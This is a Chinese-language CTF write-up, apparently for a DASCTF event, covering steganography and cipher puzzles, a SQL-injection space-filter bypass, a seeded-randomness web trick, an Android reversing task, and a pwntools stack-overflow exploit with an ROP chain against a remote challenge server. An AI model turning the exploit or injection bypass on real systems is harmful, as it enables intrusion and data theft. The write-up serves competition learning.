# MISC

## checkin_gift

下载附件，是一张图片

放入kali中binwalk



发现由两张图片拼接成，foremost分离


分离出这样一张图片，找了一圈也没有啥线索，想起来可能会在两张图片之间放些东西，把原图拖进winhex看看，搜索JFIF





发现了一串加密字符串，用CyberChef解密

经过尝试，rot13->base64->base32解密得到flag



DASCTF{38392d8bfe3196fc0fd29bcb14fdaceb}

 

 

m4a

下载附件，发现是一个名为m4a的无后缀文件

首先想到的就是拖进winhex看看



发现了翻转的16进制文件，复制16进制数值到随波逐流：其他工具->Hex_str翻转

就能得到压缩包的16进制格式了



复制内容，用winhex新建出文件放入数据导出为压缩包



打开是atbash.txt，但是压缩包损坏，原因是我们把这个文件的16进制都倒过来了，这里只需要压缩包的那一部分就好，不过可以直接WinRAR修复压缩包

发现需要密码，回到m4a文件，m4a一般是音频的后缀，加上m4a后缀试试

能听出是morse密码，放入au



能直接根据长短敲出摩斯码-... .- ....- ..-- -... -.-. . ..-. -.-. ..--- ----- ....-

解码得BA43BCEFC204，应该是压缩包密码了,得到(+w)v&LdG_FhgKhdFfhgahJfKcgcKdc_eeIJ_gFN

应该是加密字符串，根据文件名atbash提示，rot47->atbash Cipher



得到flag，DASCTF{5e0f98a95f79829b7a484a54066cb08f}

 

## Unkn0wnData

下载附件，发现是一张png图片



在010中发现图片16进制尾有一大串有规律的字符，CyberChef解码知道是emoji



这里看0rays战队的wp学到了新东西，还可以直接爆破，如下



得到emoji：

🙃💵🌿🎤🚪🌏🐎🥋🚫😆✅🍍🎤🐘🌏ℹ⌨😍🎈✉🤣🛩🍌🚪🍴ℹ☺🚹❓🍴🔬🌪🍵👣🔄☃👌😎👌🔄👌🔪🍌👁🍍🍌🌏🎃🚰🍵🐍🎅✅🍍🦓😎😊🤣🏹🍍💧🔄🔄🤣👁🥋🚫☺🍴😁🚫😇🚰⏩😍🌿💵🦓😇🛩✖🕹🐎📂📂💧🗒🗒

要找个key进行aes解密，再去看看图片的lsb



zsteg可以发现有压缩包，但是这里可以看的到并不全，于是用stegsolve找找

RGB0通道找到了该压缩包

winhex导出来



 保存为压缩包，解压出来一个key.txt，里面是data块



用脚本转换一下

normalKeys = {"04":"a", "05":"b", "06":"c", "07":"d", "08":"e", "09":"f", "0a":"g", "0b":"h", "0c":"i", "0d":"j", "0e":"k", "0f":"l", "10":"m", "11":"n", "12":"o", "13":"p", "14":"q", "15":"r", "16":"s", "17":"t", "18":"u", "19":"v", "1a":"w", "1b":"x", "1c":"y", "1d":"z","1e":"1", "1f":"2", "20":"3", "21":"4", "22":"5", "23":"6","24":"7","25":"8","26":"9","27":"0","28":"<RET>","29":"<ESC>","2a":"<DEL>", "2b":"\t","2c":"<SPACE>","2d":"-","2e":"=","2f":"[","30":"]","31":"\\","32":"<NON>","33":";","34":"'","35":"<GA>","36":",","37":".","38":"/","39":"<CAP>","3a":"<F1>","3b":"<F2>", "3c":"<F3>","3d":"<F4>","3e":"<F5>","3f":"<F6>","40":"<F7>","41":"<F8>","42":"<F9>","43":"<F10>","44":"<F11>","45":"<F12>"}

 

shiftKeys = {"04":"A", "05":"B", "06":"C", "07":"D", "08":"E", "09":"F", "0a":"G", "0b":"H", "0c":"I", "0d":"J", "0e":"K", "0f":"L", "10":"M", "11":"N", "12":"O", "13":"P", "14":"Q", "15":"R", "16":"S", "17":"T", "18":"U", "19":"V", "1a":"W", "1b":"X", "1c":"Y", "1d":"Z","1e":"!", "1f":"@", "20":"#", "21":"$", "22":"%", "23":"^","24":"&","25":"*","26":"(","27":")","28":"<RET>","29":"<ESC>","2a":"<DEL>", "2b":"\t","2c":"<SPACE>","2d":"_","2e":"+","2f":"{","30":"}","31":"|","32":"<NON>","33":"\"","34":":","35":"<GA>","36":"<","37":">","38":"?","39":"<CAP>","3a":"<F1>","3b":"<F2>", "3c":"<F3>","3d":"<F4>","3e":"<F5>","3f":"<F6>","40":"<F7>","41":"<F8>","42":"<F9>","43":"<F10>","44":"<F11>","45":"<F12>"}

 

keys = open('key.txt')

output = ""

for line in keys:

  k = line[1]

  n = line[4:6]

  if k == '0':

​     print(normalKeys[n], end='')

  elif k == '2':

​     print(shiftKeys[n], end='')

得到：

mik<DEL>mae<DEL>shiy<DEL><SPACE>:<DEL>FindT<DEL>Theo<DEL>Realg<DEL>Keyg<DEL>andl<DEL>Makee<DEL>It!d<DEL>

把<DEL>的前面一位删除

mimimashiFindTheRealKeyandMakeIt!

但是发现并不是真正的key，真正的key是刚好被删掉的几个字符，能通过前面三位的k、e、y发现

得到key:Toggled

通过aes-emoji解密可得



DASCTF{ad15eecd2978bc5c70597d14985412c4}

 

# WEB

## Web4

测试后发现题目将空格过滤了

使用内连注释符绕过

最后发现flag在emails表中

                               

 

## Web 3

随机种子数是时间戳，我们可以利用本地环境提前预知时间戳为种子后，数找到组中对应函数存放的位置，然后一直刷新，在对应的时间戳处获得flag

 


# RE

## ezandroid

逆向后mainactivity如下图所示



可以看到账号密码输入成功后进入afterlog

afterlog如下图所示



就放了一个视图，然后进入这个视图



可以看到背景是一张图片，最后加压缩出图片可以看到flag




# PWN

## GO-MAZE-v4

走完地图发现输出的是假flag，但是后门还是存在一个出入点，于是输入大量垃圾数据，发现程序崩溃，所以猜测存在栈溢出漏洞，然后静态分析



这里其实给了提示，v14这个参数存在溢出，然后就是构造rop链打orw。

exp：

```
from pwn import *
from time import *
context.log_level='debug'
#p=process('./pwn')
p=remote('1.14.97.218', 26200)
elf=ELF('./pwn')

poprax=0x400a4f
syscall=0x4025ab
poprdi=0x4008f6
poprsi=0x40416f
poprdx=0x51d4b6
poprbx=0x402498
popdxsi=0x51d559
buf=0x98a000
leave=0x4015cb

rop=b''
rop=p64(poprdi)+p64(0)+p64(popdxsi)+p64(0x100)+p64(buf+0x300)+p64(syscall)+p64(leave)

payload=p64(0)+p64(poprax)+p64(2)+p64(poprdi)+p64(elf.search(b'flag').__next__())+p64(poprsi)+p64(0)+p64(syscall)
payload+=p64(poprax)+p64(0)+p64(poprdi)+p64(3)+p64(poprsi)+p64(buf)+p64(poprdx)+p64(0x100)+p64(syscall)
payload+=p64(poprax)+p64(1)+p64(poprdi)+p64(1)+p64(poprsi)+p64(buf)+p64(poprdx)+p64(0x100)+p64(syscall)

def maps():
    p.sendline(b's')
    p.sendline(b's')
    p.sendline(b's')
    p.sendline(b's')
    p.sendline(b'd')
    p.sendline(b'd')
    p.sendline(b'd')
    p.sendline(b'w')
    p.sendline(b'w')
    p.sendline(b'w')
    p.sendline(b'd')
    p.sendline(b'd')
    p.sendline(b'd')
    p.sendline(b'w')
    p.sendline(b'd')
    p.sendline(b'w')
    p.sendline(b'w')

def pwn():
    p.recvuntil('flag')
    p.sendline(b'a'*0x178+p64(buf+0x300)+rop)
    p.send(payload)

maps()
pwn()
p.interactive()
```

